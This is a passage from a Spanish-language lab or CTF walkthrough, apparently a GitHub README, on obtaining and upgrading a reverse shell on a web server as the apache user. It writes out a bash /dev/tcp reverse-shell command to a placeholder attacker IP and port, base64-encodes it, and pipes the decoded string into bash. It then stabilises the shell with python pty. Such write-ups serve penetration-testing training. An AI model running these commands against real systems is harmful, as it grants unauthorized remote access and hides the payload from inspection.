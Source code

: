 <img width="1918" height="468" alt="image" src="https://github.com/user-attachments/assets/43c7a1fe-5f04-4653-81c1-c31531315010" />

Para encodearla podemos simplemente hacerlo con base64, podemos hacerlo con un simple comando:

```
echo "sh -i >& /dev/tcp/IPAnfitrion/PUERTO 0>&1" | base64
```
<img width="638" height="97" alt="image" src="https://github.com/user-attachments/assets/3b88c1ab-ab8f-4052-91f5-46a345acff4b" />

Nos devolverá dicho comando encriptado en base64, ahora bien para usarlo en el CLI, primero tenemos que tener habilitado el netcat (como hicimos anteriormente), y ahora aplicar el siguiente comando:

```
echo "CADENABASE64" | base64 -d | bash
```
Esto hará concatenación de comandos, primero hará un echo o lectura de la shell encodeada, después la decodeará con base64 -d y finalmente hará la carga de una shell bash. (añadir a la cadena base64 otro = )

<img width="763" height="158" alt="image" src="https://github.com/user-attachments/assets/283aa80e-7fbf-429a-9c5e-fd36cea2f318" />

Una vez hecho, veremos que netcat ha aceptado la conexión y tendremos una shell con los permisos del usuario apache. Sin embargo, si la máquina tiene disponible python podemos establecer una shell mucho más comoda pudiendo "optimizar" la que ya tenemos, para ello comprobamos si python existe usando:

```
which python
```

<img width="627" height="102" alt="image" src="https://github.com/user-attachments/assets/cffa52d2-d5b1-4c28-a534-d88fe9167e4b" />

Y si existe (como es nuestro caso) podemos activar una shell mejor usando los siguientes comandos:

```
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```
**python -c 'import pty;pty.spawn("/bin/bash")**

- python -c '...' → ejecuta el código Python que pongas entre comillas desde la terminal, sin necesidad de guardar un archivo.

- import pty → importa el módulo pty (pseudo-terminal) de Python.

- pty.spawn("/bin/bash") → abre un proceso /bin/bash (una shell de Linux) dentro de un pseudo-terminal controlado por Python

**export TERM=xterm**

La variable de entorno TERM le dice al sistema qué tipo de terminal se está usando.

xterm es un tipo de terminal estándar que soporta colores, desplazamiento, atajos, etc.

Al exportarla, programas como vim, nano o less funcionan correctamente dentro de esa shell.

Sin esto, se verian cosas raras al intentar usar programas interactivos.

Una vez explicados los comandos que usaremos, los aplicaremos dentro de nuestra shell interactiva ya creada quedando el resultado final así:
